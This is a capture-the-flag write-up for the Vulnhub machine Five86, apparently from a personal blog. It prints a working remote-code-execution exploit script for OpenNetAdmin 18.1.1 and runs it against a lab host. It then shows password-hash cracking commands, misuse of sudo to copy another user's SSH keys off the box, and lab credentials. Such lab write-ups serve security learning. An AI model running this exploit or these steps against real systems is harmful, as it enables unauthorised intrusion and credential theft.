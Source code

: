 ```yaml
---
layout: post
title: Vulnhub - Five86 writeup
date: 2019-12-25 10:00 AM
---
```


__WARNING__: There were some changes made after I beta tested the machine so you might not see some things at the place this writeup says so but you would still be able to root the machine with the help of this writeup.

## Nmap

![](images/five86/nmap.png)

***

## HTTP

When we visit the website on port 80 we see page that have a `HINT` for us:

![](images/five86/website.png)

Since there wasn't much on the page I ran gobuster on it.

![](images/five86/gobuster.png)

we can see that there is a `robots.txt` file there.

![](images/five86/robots.png)

There is only one entry in that file i.e `/ona`. If we visit that we are given access to a `opennetadmin` interface with guest login.

![](images/five86/ona.png)

I tried looking around the interface but couldn't find anything interesting and also for some reason my mind was trying to find some password hashes since the hint said something about `hashcat` and we know hashcat only works on hashes of some kind.

I searched `opennetadmin` on `searchsploit` and found an exploit for version `18.1.1`.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

If we run
```bash
bash exp.sh http://192.168.56.145/ona/
```

We'll get a shell but in some way it is restricted cause we cannot do things like change directory to something else like `cd /home` etc.

![](images/five86/shell.png)

In this shell we can run `ls` or `cat` type command but we cannot leave the directory we are currently in, it some kind of sandbox. First I thought since we cannot leave the directory meaning we have to look within the content of this directory but then I noticed something if we run any command that might result in error, the error isn't shown. Like `cat /etc/shadow` would give some kind of `permission denied` but we don't see any error, so some way these errors are being compressed.

So I ran the following command to find all the file `www-data` have access to.

```bash
$ find / -type f -user www-data
```

__CMD Breakdown__

* find - is a linux command to find anything like file or directory.
* The first argument i.e `/` is the place to perform the search.
* `-type` - It takes `f` or `d` resembling what we are searching.
    - `f` - For files
    - `d` - For directories
* `-user` - This tells in connection to which user.
This command will search all the `files` that have permission for `www-data` under `/`(complete file system)

![](images/five86/output.png)

We can see that there are two files that `www-data` have permission for. If we read the `/var/www/html/reports/.htaccess` file we'll get the following output:

![](images/five86/pass-path.png)

In the output we can see `AuthUserFile` path if we read that we'll get a password hash for user `douglas`

![](images/five86/pass-hash.png)

```
douglas:$apr1$jHPnRKKJ$kmU1v2VAklzsKiNdOv0cb1
```

Now we can run hashcat on this hash to crack the password. We can use the following command to crack with `hashcat`

```bash
➜ hashcat -m 1600 hash.txt --force -a 3 -1 aefhrt ?1?1?1?1?1?1?1?1 -O
```

But for some reason hashcat was acting up so I made a list using `crunch` and then used `jtr` to crack using that list.

```bash
➜ crunch 8 8 aefhrt > password.txt
➜ john --wordlist=password.txt hash.txt
```

![](images/five86/cracker.png)

`douglas:fatherrr`

We can use this password to login via `SSH`

![](images/five86/ssh.png)

***

## Privilege Escalation

The first thing I checked was the sudo right for `douglas`

![](images/five86/sudo-right.png)

We can run `cp` and `ls` as `jen` meaning we'll be able to look into `/home/jen` directory and see if there is something worth taking.

![](images/five86/jen-dir.png)

So we can copy files with cp command in `/tmp` but issue is that we still won't be able to open that file cause it will have `jen` permission.

To bypass that we can just download those files on our own system and open it normally.

```bash
sudo -u jen /bin/cp /home/jen/keys.tar.gz /tmp/
```

Then start `python -m http.server` and get that tar file. That file had private SSH key for `jen`. We can just use those to login as `jen`.

```bash
ssh jen@192.168.56.145 -i id_rsa
```

![](images/five86/ssh-jen.png)

I again ran the `find` command but this type to look for `jen` files and found that there was a `/var/mail/jen`.

![](images/five86/mail.png)

we can see that there is the password for `moss`.

`moss:Fire!Fire!`

Then in `moss` home directory I found that there was a hidden directory named `.games` in there was a binary named `upyourgame` now TBH I don't know what it was I just ran it and typed yes and no and got root.

![](images/five86/weird.png)

![](images/five86/root.png)

***

This was an a nice machine and I really liked it. Thanks to [@DCAU7](https://twitter.com/DCAU7) or I should say [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
